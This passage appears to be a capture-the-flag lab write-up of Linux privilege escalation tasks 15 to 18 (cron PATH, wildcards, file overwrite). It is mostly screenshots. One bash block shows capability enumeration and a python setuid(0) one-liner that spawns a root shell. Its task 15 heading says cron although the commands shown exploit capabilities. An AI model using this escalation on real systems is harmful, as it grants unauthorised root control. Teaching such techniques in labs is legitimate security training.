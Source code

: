 ![image](https://github.com/user-attachments/assets/87839f80-9192-4d67-80ea-00c8afcbe715)

![image](https://github.com/user-attachments/assets/857f0097-8d52-4a93-ac4b-b3a3a1431a04)

![image](https://github.com/user-attachments/assets/b69f7e86-bdcf-4106-bf8f-7616bdab1fe0)

<br>

<h2>Task 15 . Privilege Escalation - Cron (Path)</h2>

<h3 align="left">Answer the question below</h3>

> 15.1. <em>Click 'Completed' once you have successfully elevated the machine</em><br><a id='15.1'></a>
>> <strong><code>No answer needed</code></strong><br>

```bash
TCM@debian:/home$ getcap -r / 2>/dev/null
...
TCM@debian:/home$ /usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@debian:/home# 
```

<br>

<h2>Task 16 . Privilege Escalation - Cron (Path)</h2>

<h3 align="left">Answer the question below</h3>

> 16.1. <em>Click 'Completed' once you have successfully elevated the machine</em><br><a id='16.1'></a>
>> <strong><code>No answer needed</code></strong><br>

![image](https://github.com/user-attachments/assets/7c670c15-9afa-425c-bd0a-70848e0bd179)

![image](https://github.com/user-attachments/assets/f88d00e1-0f32-4fa5-8765-4ea8bfdcc64e)

<br>

<h2>Task 17 . Privilege Escalation - Cron (Wildcards)</h2>

<h3 align="left">Answer the question below</h3>

> 17.1. <em>Click 'Completed' once you have successfully elevated the machine</em><br><a id='17.1'></a>
>> <strong><code>No answer needed</code></strong><br>

![image](https://github.com/user-attachments/assets/b182cb72-7e9e-48fe-8a2e-cfbd0e7b03bd)

![image](https://github.com/user-attachments/assets/1c66c1f0-1945-45e8-8c51-b13d540b9ce7)

![image](https://github.com/user-attachments/assets/290b1bcd-646c-480f-a09b-ed0cab9e376e)

<br>

<h2>Task 18 . Privilege Escalation - Cron (File Overwrite)</h2>
